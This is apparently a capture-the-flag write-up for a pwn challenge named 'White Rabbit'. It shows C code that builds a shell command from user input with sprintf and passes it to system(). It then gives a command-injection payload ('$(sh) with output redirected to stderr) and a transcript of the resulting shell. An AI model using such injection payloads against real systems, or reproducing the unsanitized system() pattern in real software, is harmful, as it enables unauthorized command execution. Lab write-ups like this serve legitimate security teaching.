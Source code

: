 # White Rabbit

This short pwn challenge reads input once, checks the input for 'flag,' then prints the file in the input.

The code used to print the file is along the lines of:
```c
sprintf(line, "[ -f '%1$s' ] && cat '%1$s' || echo File does not exist", buffer);
system(line);
```

This can be found via ghidra or even `strings` which will reveal the snprintf format string.

This challenge is vulnerable to command injection.

There are multiple approaches to inject a command. One option is to close the single quote with another single quote, then execute `bash` or `sh` via command substitution. The payload is then `'$(sh)`.

This doesn't work 100% however, since system is trying to user our input in a command. So we will need to pipe our output to stderr insted of stdout with something like `sh >&2`.

```
Follow the white rabbit.
Path to follow: '$(sh)
sh >&2
$ whoami
whiterabbit
$ exit
sh: 1: [: missing ]
File does not exist
```

We can now run `cat flag.txt` without restriction!

Again, there are many different ways to do this, as long as you inject some command.
